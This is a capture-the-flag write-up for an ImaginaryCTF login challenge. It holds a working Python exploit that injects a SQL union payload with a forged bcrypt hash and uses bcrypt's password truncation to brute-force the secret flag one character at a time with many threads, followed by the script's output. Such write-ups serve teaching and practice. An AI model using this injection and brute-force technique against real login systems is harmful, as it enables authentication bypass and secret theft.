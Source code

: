 ![](https://hackmd.io/_uploads/HJ5mWzi93.png)

Based on the information provided, it appears that the web application has a unique behavior related to the login process. Specifically, whenever a user logs in, if the application makes a request to `/?$magic`, the flag will be appended to the end of the password. The password will then be authenticated using the `password_verify()` function.

Solution:
```python
import requests
import string
import bcrypt
from concurrent.futures import ThreadPoolExecutor, as_completed

url = "http://login.chal.imaginaryctf.org/?688a35c685a7a654abc80f8e123ad9f0"

valid_chars = string.ascii_letters + string.digits + string.punctuation

flag = "ictf{why_are_bcrypt_truncating_my_passwords?!" #preseeding flags for faster brute-force.

def check_password(char):
    global flag, password

    password = 'a' * ( 71 - len(flag))
    pass_test = password + flag + char
    hash = bcrypt.hashpw(pass_test.encode('utf-8'), bcrypt.gensalt(rounds=10))

    data = {
        "username": "' union select 'admin' as username,'" + hash.decode('utf-8') + "' as pwhash--",
        "password": password
    }

    res = requests.post(url, data=data)
    if 'admin' in res.text:
        print("Password: ", password + flag)
        print("Found: ", char)
        flag += char
        password = password[:-1]

with ThreadPoolExecutor(max_workers=100) as executor: #change threads to be faster.
    while flag[-1] != '}':
        futures = [executor.submit(check_password, char) for char in valid_chars]
        for future in futures:
            future.result()

print("Flag is: ", flag)

```

Result:
```
┌──(taiwhis㉿kali)-[~]
└─$ python 5.py
Password:  aaaaaaaaaaaaaaaaaaaaaaaaaaictf{why_are_bcrypt_truncating_my_passwords?!
Found:  }
Flag is:  ictf{why_are_bcrypt_truncating_my_passwords?!}

```
